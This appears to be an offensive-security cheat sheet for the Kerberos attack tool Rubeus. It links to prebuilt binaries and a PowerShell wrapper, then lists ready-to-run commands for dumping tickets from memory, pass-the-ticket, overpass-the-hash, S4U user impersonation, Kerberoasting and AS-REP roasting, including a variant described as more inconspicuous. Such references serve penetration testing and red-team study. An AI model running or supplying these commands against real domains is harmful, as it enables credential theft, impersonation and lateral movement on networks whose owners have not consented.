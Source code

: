 ### Sources or compile directly from github
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  
https://github.com/GhostPack/Rubeus

## Note: Always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```

### Create new process
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe'
```

### Pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```

### Kerberoasting using john format
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt '
```

### Asrep roasting using john format 
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

